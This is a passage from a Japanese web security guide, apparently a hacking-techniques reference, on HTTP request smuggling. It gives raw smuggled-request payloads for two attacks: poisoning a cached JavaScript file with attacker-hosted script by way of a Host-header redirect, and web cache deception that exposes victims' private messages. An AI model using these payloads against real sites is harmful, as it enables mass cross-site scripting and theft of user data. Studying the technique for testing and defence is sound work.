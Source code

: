 この技術は、**オープンリダイレクトの脆弱性**が発見された場合や、**オープンリダイレクトへのオンサイトリダイレクト**がある場合に特に強力になります。このような脆弱性を利用して、攻撃者の制御下にあるスクリプトで`/static/include.js`のキャッシュコンテンツを置き換えることができ、実質的にすべてのクライアントに対して広範なクロスサイトスクリプティング（XSS）攻撃を可能にします。

以下は、**キャッシュポイズニングとオープンリダイレクトへのオンサイトリダイレクトを組み合わせた悪用**の例です。目的は、攻撃者が制御するJavaScriptコードを提供するために`/static/include.js`のキャッシュコンテンツを変更することです：
```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
埋め込まれたリクエストが `/post/next?postId=3` をターゲットにしていることに注意してください。このリクエストは `/post?postId=4` にリダイレクトされ、**Host ヘッダーの値**を利用してドメインを決定します。**Host ヘッダー**を変更することで、攻撃者はリクエストを自分のドメインにリダイレクトできます（**オンサイトリダイレクトからオープンリダイレクト**）。

成功した **ソケットポイズニング** の後、`/static/include.js` に対する **GET リクエスト** を開始する必要があります。このリクエストは、以前の **オンサイトリダイレクトからオープンリダイレクト** リクエストによって汚染され、攻撃者が制御するスクリプトの内容を取得します。

その後、`/static/include.js` に対するリクエストは、攻撃者のスクリプトのキャッシュされた内容を提供し、効果的に広範な XSS 攻撃を開始します。

### HTTP リクエストスムージングを使用してウェブキャッシュの欺瞞を実行する <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **ウェブキャッシュポイズニングとウェブキャッシュの欺瞞の違いは何ですか？**
>
> * **ウェブキャッシュポイズニング** では、攻撃者がアプリケーションに悪意のあるコンテンツをキャッシュに保存させ、そのコンテンツが他のアプリケーションユーザーにキャッシュから提供されます。
> * **ウェブキャッシュの欺瞞** では、攻撃者がアプリケーションに他のユーザーに属する機密コンテンツをキャッシュに保存させ、攻撃者がそのコンテンツをキャッシュから取得します。

攻撃者は、機密のユーザー固有のコンテンツを取得するためのスムージングリクエストを作成します。次の例を考えてみてください：
```markdown
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
```
このスムグルされたリクエストが静的コンテンツ（例：`/someimage.png`）用のキャッシュエントリを汚染すると、被害者の`/private/messages`からの機密データが静的コンテンツのキャッシュエントリの下にキャッシュされる可能性があります。その結果、攻撃者はこれらのキャッシュされた機密データを取得できる可能性があります。
